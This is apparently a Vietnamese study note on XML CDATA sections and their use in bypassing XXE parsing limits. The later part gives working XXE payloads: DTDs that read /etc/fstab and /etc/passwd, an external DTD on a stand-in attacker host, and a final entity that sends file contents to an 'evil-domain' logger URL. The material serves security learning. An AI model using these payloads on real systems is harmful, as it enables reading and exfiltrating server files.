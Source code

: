 ## CDATA
- Khái niệm CDATA nghĩa là dữ liệu ký tự (Character Data). CDATA được định nghĩa như là các khối text mà không được phân tích bởi Parser, nhưng được nhận ra khi đánh dấu.
- Trong XML, CDATA là một phần của cú pháp được sử dụng để chỉ định văn bản có chứa dữ liệu không nên được phân tích bởi trình phân tích cú pháp XML. CDATA giúp tránh xung đột với các ký tự đặc biệt hoặc cú pháp XML bên trong nội dung văn bản.


![alt text](image.png)

- Cú pháp của khu vực CDATA trong XML là:

```
<![CDATA[
   // bất kì kí tự
]]>
```

- Cú pháp trên bao gồm ba phần:

+ Phần bắt đầu CDATA - CDATA bắt đầu với một delimiter gồm 9 ký tự <![CDATA[
+ Phần kết thúc CADTA - Khu vực CDATA kết thúc với delimiter là ]]>.
+ Khu vực CDATA - Các ký tự ở giữa hai phần trên được thông dịch như là các ký tự, không đánh dấu. Khu vực này có thể chứa các ký tự đánh dấu (như <, >, và &), nhưng chúng được bỏ qua bởi XML Processor.


- Qui tắc cho CDATA trong XML:
- Một số qui tắc sau là bắt buộc khi sử dụng CDATA trong XML:

+ CDATA không thể chứa chuỗi "]]>" ở bất cứ đâu trong tài liệu XML.
+ Việc lồng là không được cho phép trong khu vực CDATA. có nghĩa là chỉ có 1 tag duy nhất

- ![alt text](image-1.png)
- ![alt text](image-2.png)

- Tác dụng:
Bảo vệ dữ liệu không bị phân tích sai: Khi một phần của nội dung XML chứa các ký tự đặc biệt như dấu "<" hoặc "&", trình phân tích cú pháp XML có thể hiểu nhầm và xử lý chúng như phần của cú pháp XML thay vì dữ liệu. Sử dụng CDATA giúp tránh điều này bằng cách bảo vệ các phần của văn bản không nên được phân tích.

Giữ nguyên dữ liệu gốc: Khi dữ liệu XML chứa các đoạn mã hoặc ngôn ngữ khác như JavaScript hoặc HTML, sử dụng CDATA giúp giữ nguyên đoạn mã mà không cần phải thay đổi chúng để phù hợp với cú pháp XML.

Dễ dàng bảo trì và sửa chữa: Khi sử dụng CDATA, dữ liệu bên trong không bị thay đổi, điều này làm cho việc bảo trì và sửa chữa dữ liệu dễ dàng hơn, đặc biệt là khi dữ liệu chứa các ký tự đặc biệt hoặc mã phức tạp.

### Bypass XXE with CDATA
![alt text](image-3.png)
- Trong một số trường hợp, dữ liệu mình muốn truy xuất sẽ có các ký tự làm hỏng quá trình phân tích cú pháp XML. Chúng ta có thể sử dụng CDATA để vượt qua giới hạn này. CDATA yêu cầu trình phân tích cú pháp XML bỏ qua nội dung trong dấu ngoặc. Ví dụ đơn giản:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY start "<![CDATA[">
  <!ENTITY content "file:///some/path/some/file.txt">
  <!ENTITY end "]]>">
]>

<name>&start; &content; &end;</name>


```

- Nhưng điều này sẽ thất bại vì nó vi phạm Quy tắc thực thể chung số 2:

- Thực thể chung phải chứa dữ liệu mà trình phân tích cú pháp XML có thể phân tích cú pháp (ví dụ: <blah>sẽ không được phép vì không có </blah>thẻ đóng.)

- Để sử dụng thành công CDATA nhằm truy xuất dữ liệu có thể gây ra sự cố với trình phân tích cú pháp XML, chúng ta cần tạo bốn Thực thể Tham số:

+ Parameter Entity đầu tiên sẽ là nội dung file chúng ta muốn đọc.
+ Sau đó, chúng tôi sẽ đặt một giá trị khác bằng với điểm bắt đầu chuỗi CDATA của chúng tôi.
Cái thứ ba sẽ được đặt ở cuối chuỗi CDATA.
+ Và cuối cùng, phần thứ tư sẽ chứa Thực thể chung sẽ gắn kết tất cả những thứ đó lại với nhau.

<!ENTITY % file SYSTEM "file:///some/path/some/file.txt">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
- Với DTD bên ngoài được lưu trữ, chúng tôi có thể sử dụng nó trong quá trình khai thác:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % ext SYSTEM "http://ourserver.com/cdata.dtd">
  %ext;
]>

<name>&all;</name>
```

- Bằng cách kết hợp các thực thể tham số và CDATAthẻ, kẻ tấn công có thể tạo một DTD độc hại được lưu trữ trên bad.example.com/evil.dtd :

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents 
'%start;%file;%end;'>">
```


## Những kí tự CDATA không bị escape:
- Trong XML, CDATA bắt đầu với dấu mở CDATA <![CDATA[ và kết thúc với dấu đóng CDATA ]]>. Bất kỳ văn bản nằm giữa hai dấu này sẽ được coi là dữ liệu ký tự và sẽ không bị phân tích cú pháp XML. Điều này cho phép bạn bao gồm các ký tự đặc biệt như <, >, &, mà không cần phải escape chúng.

- ví dụ:
```
<![CDATA[This is some <b>bold</b> text.]]>

```


<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///etc/paswd">
<!ENTITY % print "<!ENTITY send SYSTEM 'http://my-evil-
domain.$$$$/rotem/klogger/logger.php?c=%file; ">">
%print;
